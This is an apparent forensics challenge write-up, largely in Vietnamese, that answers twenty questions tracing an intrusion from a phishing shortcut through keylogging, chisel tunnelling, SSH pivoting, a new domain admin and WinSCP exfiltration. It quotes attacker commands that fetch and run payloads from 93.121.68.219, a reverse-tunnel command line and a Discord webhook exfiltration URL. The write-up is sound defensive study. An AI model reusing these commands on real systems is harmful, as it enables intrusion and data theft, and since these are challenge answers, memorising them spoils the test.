## Mô tả : 

### 1. The threat actor abused an internal communication service between employees and shared a malicious file to facilitate lateral movement within the network. This activity is believed to have originated from TriDsk-WKS02 which was recently compromised. Provide the full path of the file that was downloaded.

Tìm tất cả Folder Downloads của các User thì t thấy user Martha chứa 1 shortcut 


-> Answer : C:\Users\Martha\Downloads\TriDsk-OCT-2025_ReleaseNotes_v1.pdf.lnk

### 2. The threat actor downloaded a keylogger to the endpoint to capture user keystrokes. Provide the exact URL used to download the keylogger.

Tìm các url có trong Event logs của user Martha ở trên


Ở đây chúng ta thấy threat actor tải 2 chương trình là 645.exe, và 6412.exe rồi đặt lần lượt ở các vị trí "C:\Users\Public\Music\temp.exe" và "$env:temp\svchosts.exe"

-> Answer : http://93.121.68.219:8908/645.exe

### 3. The threat actor identified and abused a protocol that enabled pivoting to other endpoint within the environment. They used a tool to facilitate further lateral movement abusing this protocol. Find the full command line used to move laterally using port forwarding.

Dựa theo thứ tự event logs của Powershell ta biết được sau khi tải 645.exe attacker lần lượt làm các việc sau
+ powershell -Command schtasks /create /sc minute /mo 10 /tn "update" /tr "C:\Users\martha\AppData\Local\Temp\wctBB85.exe" : tạo 1 task chạy wctaBB85.exe mỗi 10'
+ powershell -Command powershell.exe 'Invoke-WebRequest -Uri "http://93.121.68.219:8908/6412.exe" -OutFile "$env:temp\svchosts.exe"' : tải 6142.exe và đặt tên à svchosts.exe 
+ powershell -Command C:\Users\martha\AppData\Local\Temp\svchosts.exe client --fingerprint YyOMHvo9v7CraOiZmWDmEuRvP6fiIsIeroYRZUqq7f0= 93.121.68.219:8080 R:8000:10.101.1.12:22 : khởi chạy svchosts.exe với các tham số sau 


Thông qua VirusTotal ta biết được svchosts.exe tương đồng chisel tunneling sử dụng SOCKS5 protocol . Lệnh ở trên nghĩa là attacker sẽ dùng máy  TriDsk-WKS01 tạo reverse tunnel từ 93.121.68.219:8000 (máy attacker) đến 10.101.1.12:22 (máy khác hỗ trợ SSH)

-> Answer : powershell -Command C:\Users\martha\AppData\Local\Temp\svchosts.exe client --fingerprint YyOMHvo9v7CraOiZmWDmEuRvP6fiIsIeroYRZUqq7f0= 93.121.68.219:8080 R:8000:10.101.1.12:22

### 4. To force the user to re-enter their credentials for credential harvesting, the threat actor deployed a script that continuously monitors for the execution of the process related to the protocol being abused and immediately terminates it. Provide the process termination time.

Theo như câu trên thì protocol bị abuse khả năng là ssh nên mình tìm ssh trong eventlog thì phát hiện có 1 block script của powershell


script này thực hiện vòng lặp cứ mỗi 1s sẽ kiểm tra có process nào tên ssh rồi kill ngay lập tức ( script được tạo ra lúc 2025-12-26 00:52:47). Sau mốc thời gian này event log không có phát hiện gì về việc kill process.
Dựa vào câu 3 ta biết được máy đích mà Attacker lateral movement có IP 10.101.1.12, sau khi kiểm tra eventID 4624 (LogonType 3) từ máy $D01 ta phát hiện máy có IP trên là $APP01 cũng như máy $WKS01 có IP 10.101.2.7


Kiểm tra log trên $APP01



-> Answer : 2025-12-26 00:52:51 (UTC)


### 5. Identify the time interval (in milliseconds) that the keylogger waits before sending captured data to the server.
Reverse temp.exe 


=> Answer : 1200000

### 6. The keylogger exfiltrated captured data to a remote server. Provide the full destination URL.
Từ đoạn trên t thấy nó gọi hàm Sub_1400023D0 để gửi về C2


=> Answer : https://discord.com/api/webhooks/1452445434894221455/pKIO5TZGrGL7KaWLb_H03S61nI9OcRe_UKvEHhOBgG507IyprUxzYzBSOyTj46c2AVCY

### 7. After harvesting credentials, the threat actor moved laterally to another endpoint. When did they successfully authenticate to the new endpoint?
Từ câu 4 ta biết được

-> Answer : 2025-12-26 01:33:03 (UTC)

### 8. After moving laterally to the second system, the threat actor downloaded two malicious executables. When was the second executable file downloaded?
Kiểm tra .bash_history ta thấy người dùng tải file thứ 2 (wget http://93.121.68.219:8908/b21 -O /tmp/sh)


Sau đó xem chi tiết các MACB timestamps file ở  Misc/app01-20251226-1001-full-timeline.csv


-> Answer : 2025-12-26 01:50:20

### 9. The threat actor established persistence on this newly compromised endpoint after successfully escalating privileges. What is the full command that is executed as part of the persistence mechanism?
Kiểm tra trong thư mục Persistence ta thấy có 1 service decode base64 sau đó thực thi 


-> Answer : curl -fsSL http://93.121.68.219:8908/updat3 -o /dev/shm/.upd&& chmod +x /dev/shm/.upd&& /dev/shm/.upd

### 10. Determine the total dwell time, in minutes, that the threat actor spent on the second endpoint.
Ở thông tin trên ta được biết threat actor login vào second endpoint lúc 2025-12-26 01:33:03 (UTC) với user dev01@TriDsk.local, kiểm tra lại wtmp xem tổng thời gian dev01@TriDsk.local đăng nhập vào phiên này


thời gian từ  Fri Dec 26 03:33:03 2025 - Fri Dec 26 07:23:28 2025 => 230.42 phút
-> Answer : 230.42

### 11. The threat actor performed lateral movement from Second Compromised Endpoint to another endpoint. Which alternative user account was used to access the target endpoint?


Kiểm tra .bash_hisotry của user root ta phát hiện truy cập smbserver thông qua credential của user filesrv_admin

-> Answer : FileSrv_Admin

### 12. The threat actor obtained initial access on third machine by downloading and executing a malicious executable. Provide the full command used to execute the malicious file.
Khi grep "smb" trong cả second endpoint mình còn phát hiện thêm user app01 truy cập smb share folder trên máy fs01, nên khả năng third endpoint chính là fs01


Trong eventlog của FS01 ta phát hiện tải một vài file thông qua powershell 




nhưng không có dấu hiệu được thực thi, nhưng có điều thú vị là trên máy DC01 có phát hiện cài PsExec ( chương trình giúp sao chép và thực thi chương trình từ xa thông qua SMB) và ngay sau đó là thực thi lần lượt

```
powershell -c Start-Process C:\Users\Administrator\Music\update.exe
powershell -c Start-Process C:\Users\Administrator\Music\del.exe
powershell -c Start-Process C:\Users\Public\Music\del.exe
powershell -c Start-Process C:\Users\Public\Music\del1.exe
```




-> Answer : powershell -c Start-Process C:\Users\Administrator\Music\update.exe

### 13. What is the full file path associated with the malicious service created on the third compromised endpoint?
Kiểm tra event id : 7045 trên máy DC01


-> Answer : \\127.0.0.1\ADMIN$\f94c290.exe

### 14. When was Windows Defender real-time protection disabled on the endpoint?
Kiểm tra event logs của Microsoft Defender vào ngày 2025-23-26



-> Answer : 2025-12-26 02:48:44

### 15. The threat actor created a new user account and added it to the 'Domain Admins' group. What is the name of the user account?
Kiểm tra event ID : 4720 



-> Answer : s1rx

### 16. The threat actor attempted to enable the RDP protocol on the endpoint but failed in doing so. They then moved laterally to another endpoint and successfully enabled RDP for remote access. When was RDP enabled?
Trên máy FS01 một rule của Firewall được chỉnh sửa ( Rulename : Remote Desktop - Shadow (TCP-In))


-> Answer : 2025-12-26 04:14:10

### 17. After Enabling RDP on the fourth endpoint, when did the attacker successfully log in via RDP using the backdoor account?
Kiểm tra event ID : 4624 với LogonType 10 



-> Answer : 2025-12-26 04:23:02

### 18. The threat actor identified an application used by the IT team, installed it using the installer file already on the system and abused it for data exfiltration. What is the application name and version?

Chuỗi sự kiện trên event logs của máy FS01 sau khi RDP thành công bởi user s1rx, attacker thực thi file S:\Shares\IT\WinSCP-6.5.3.msi (trong folder Shares SMB) lúc 2025-12-26 04:38:03



-> Answer : WinSCP 6.5.3

### 19. What was the full file path of the staged data that the threat actor later exfiltrated?
Trong $J có thấy khởi tạo file Backup.7z sau đó ghi dữ liệu rồi chuyển sang Download của user s1rx



-> Answer : C:\Users\Public\Downloads\Backup.7z

### 20. What username and password did the threat actor use to authenticate to the external exfiltration server?

Ở câu 18 ta biết attacker download WINSCP khả năng sẽ dùng chương trình này để truyền file




Sau khi search trên Google mình biết WinSCP lưu có lưu password ở dạng encoded ở 
`HKEY_CURRENT_USER\Software\Martin Prikryl\WinSCP 2`



Bên cạnh đó mình kiếm được repo này trên github dùng để giải mã password WinSCP : [text](https://github.com/anoopengineer/winscppasswd)



-> Answer : S1rx_vzNDP79yv
